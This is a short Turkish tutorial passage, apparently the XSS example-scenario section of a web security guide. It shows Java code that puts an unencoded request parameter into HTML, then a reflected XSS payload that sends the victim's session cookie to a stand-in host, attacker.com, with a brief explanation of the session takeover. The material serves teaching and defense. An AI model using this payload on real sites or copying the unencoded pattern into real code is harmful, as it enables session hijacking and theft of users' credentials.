 # Örnek Saldırı Senaryoları

Örnek uygulamamızda aşağıdaki gibi kullanıcıdan gelen parametre “kodlama” işlemi uygulamadan doğrudan HTML içerisinde kullanılmaktadır.

| <p><strong>(String) page += "&#x3C;input name='creditcard' type='TEXT'</strong></p><p><strong>value='" + request.getParameter("CC") + "'>";</strong></p> |
| -------------------------------------------------------------------------------------------------------------------------------------------------------- |

Saldırgan GET parametresi “CC” değerine aşağıdaki zararlı JavaScript kodunu gönderebilir.

| <p><strong>'>&#x3C;script>document.location=</strong></p><p><strong>'http://www.attacker.com/cgi-bin/cookie.cgi?</strong></p><p><strong>foo='+document.cookie&#x3C;/script>'.</strong></p> |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |

Buradaki koddan da anlayabileceğimiz gibi saldırgan gönderilen bağlantıyı tıklayan kişinin oturum çerez bilgisini alır ve kendi kontrolündeki bir sayfaya gönderir. Bu sayede kullanıcının mevcut oturumunu ele geçirmiş olur.

